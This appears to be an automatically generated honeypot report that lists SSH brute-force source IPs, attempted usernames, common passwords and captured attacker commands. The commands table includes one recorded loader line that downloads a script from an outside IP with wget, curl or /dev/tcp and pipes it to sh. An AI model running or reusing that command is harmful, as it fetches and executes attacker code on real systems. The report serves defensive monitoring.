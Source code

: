 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 24.199.85.200 | 7925 |
| 47.99.47.102 | 4563 |
| 120.25.100.12 | 4357 |
| 8.218.186.25 | 4197 |
| 47.242.12.97 | 2270 |
| 47.242.249.133 | 673 |
| 8.130.102.128 | 445 |
| 34.86.128.60 | 217 |
| 8.138.147.140 | 104 |
| 47.238.193.69 | 90 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 3555 |
| ubuntu | 43 |
| admin | 41 |
| test | 40 |
| oracle | 26 |
| postgres | 24 |
| ubuntuserver | 22 |
| ftpuser | 19 |
| guest | 18 |
| debian | 16 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 1479 |
| 111111 | 124 |
| 123 | 38 |
| password | 34 |
| 1234 | 32 |
| test | 17 |
| 1 | 17 |
| nagios | 15 |
| P@ssw0rd | 15 |
| zarah | 13 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 34.86.128.60 | uname -s -m |
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 47.251.99.255 | uname -s -m |
